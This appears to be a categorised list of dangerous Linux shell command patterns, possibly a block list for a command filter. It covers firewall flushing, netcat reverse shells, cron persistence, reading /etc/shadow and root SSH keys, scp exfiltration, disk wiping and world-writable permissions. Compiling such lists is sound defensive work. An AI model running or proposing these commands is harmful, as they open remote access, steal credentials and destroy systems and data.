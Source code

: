 ## 🔥 NETWORK SECURITY BYPASS (FIREWALL OFF)
```
iptables -F
iptables -X
ufw disable
firewalld --disable
systemctl stop firewalld
systemctl disable firewalld
```

## 🔥 BACKDOOR INSTALLATION (PERSISTENT ACCESS)
```
nc -e /bin/bash *
netcat -e /bin/bash *
crontab -l | { cat; echo "@reboot /bin/bash*" }
echo "* * * * * /bin/bash*" >> /etc/crontab
```

## 🔥 DATA EXFILTRATION (DATA THEFT)
```
cat /etc/shadow
cat /root/.ssh/id_rsa
scp /etc/passwd user@*:~
tar czf /tmp/data.tar.gz /home/* && scp *
```

## 🔥 SERVICE DISRUPTION (SYSTEM DOWN)
```
systemctl stop sshd
systemctl stop apache2
systemctl stop mysql
systemctl stop postgresql
systemctl disable sshd
systemctl disable apache2
```

## 🔥 DISK MANIPULATION (HARDWARE DAMAGE)
```
dd if=/dev/random of=/dev/sda
mkfs /dev/sda
fdisk /dev/sda
fdisk /dev/nvme0n1
```

## 🔥 DANGEROUS PERMISSIONS (SECURITY BREACH)
```
chmod -R 777 /
chmod -R 777 /home
chown -R nobody:nogroup /
chmod +s /bin/bash
```
